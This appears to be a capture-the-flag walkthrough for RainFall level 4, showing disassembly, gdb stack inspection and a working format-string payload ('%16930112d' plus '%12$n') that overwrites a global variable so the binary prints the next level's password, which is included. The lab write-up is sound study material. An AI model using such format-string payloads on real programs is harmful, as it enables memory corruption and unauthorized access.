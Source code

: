 ## LEVEL 4
---

Most important parts:
```shell
main:
[...]
    0x080484ad <+6>:	call   0x8048457 <n> ; Call n function without arguments
[...]
```
```shell
n:
[...]
    0x0804845a <+3>:	sub    $0x218,%esp ; Allocate 536 bytes on the stack
[...]
    0x08048471 <+26>:	lea    -0x208(%ebp),%eax ; Load the address of the buffer in $eax
    0x08048477 <+32>:	mov    %eax,(%esp) ; Put the address of the buffer on $esp
    0x0804847a <+35>:	call   0x8048350 <fgets@plt> ; Call fgets(buffer, 512, stdin)
    0x0804847f <+40>:	lea    -0x208(%ebp),%eax ; Load the address of the buffer in $eax
    0x08048485 <+46>:	mov    %eax,(%esp) ; Put the address of the buffer on $esp
    0x08048488 <+49>:	call   0x8048444 <p> ; Call p(buffer)
    0x0804848d <+54>:	mov    0x8049810,%eax ; Load global variable in $eax
    0x08048492 <+59>:	cmp    $0x1025544,%eax ; Compare the global variable with 0x1025544
[...]
    0x080484a0 <+73>:	call   0x8048360 <system@plt> ; Call system("/bin/cat /home/user/level5/.pass")
[...]
```
```shell
p:
[...]
    0x0804844a <+6>:	mov    0x8(%ebp),%eax ; Load the first argument of p in $eax
    0x0804844d <+9>:	mov    %eax,(%esp) ; Put the first argument of p on $esp
    0x08048450 <+12>:	call   0x8048340 <printf@plt> ; Call printf(first_argument)
[...]
```

This README will be relatively short because the logic is very similar to the previous level, with two exceptions that I will explain.

The first exception I that `printf` is called in another function, so the distance between where the buffer is store and the address where `printf` gets its arguments is not the same as in the previous level, it will be higher. Let's calculate that to be sure which argument we need to change to overwrite the global variable.

```shell
(gdb) b *0x08048450
Breakpoint 1 at 0x8048450
(gdb) r
Starting program: /home/user/level4/level4
AAAA
(gdb) x/32a $esp
0xbffff4f0:	0xbffff520	0xb7ff26b0	0xbffff764	0xb7fd0ff4
0xbffff500:	0x0	0x0	0xbffff728	0x804848d <n+54>
0xbffff510:	0xbffff520	0x200	0xb7fd1ac0 <_IO_2_1_stdin_>	0xb7ff37d0 <__libc_memalign+16>
0xbffff520:	0x41414141
```

We can observe that the address of the buffer is `0xbffff520`, and the format string attack will begin printing addresses from `0xbffff4f4` (the address of the first argument of `printf` after the buffer). Therefore, `(0xbffff520 - 0xbffff4f4)/4 = 0xb == 11`. We add one because I intend to write at the address `0xbffff520`.

The second exception is the value to compare the global variable, in the previous level it was 64 which is easy to write before the variable, but here it is `0x1025544` which is too big to write. We will have to find another way to write it.

Bu curiosity this is the errors we've got if I write the caracter manually :


```shell
$ python -c 'print "\x10\x98\x04\x08" + "A"*16930112 + "%12$n"' | ./level4
AAAAAAAAA[...]AAAAAAAAATraceback (most recent call last):
  File "<string>", line 1, in <module>
IOError: [Errno 32] Broken pipe
```
Or
```shell
$ python -c 'print "\x10\x98\x04\x08" + "A"*16930112 + "%12$n"' >/tmp/payload
$ cat /tmp/payload | ./level4
AAAAAAAAAAAAAAAAAA[...]AAAAAAAAAAAAlevel4@RainFall:~$
```
In the first case, we have a pipe error and in the second the pipe is limited.

So we have to find a way to printf to write 16930116 characters, without breaking pipes. For that I will use `printf` padding flag which is `%{padding number}d`, it will write `(padding number) - len(number)`. For example, `%10d` will write 10 - 1 = 9 spaces before the number.

Now we can create the payload like this format :
`"{address_of_global_variable_reversed}" + "%{compared_value_minus_4}d" + %{position_to_reach}$n`

```shell
$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/payload
$ cat /tmp/payload | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

---
*Source :*

*https://www.lix.polytechnique.fr/~liberti/public/computing/prog/c/C/FUNCTIONS/format.html*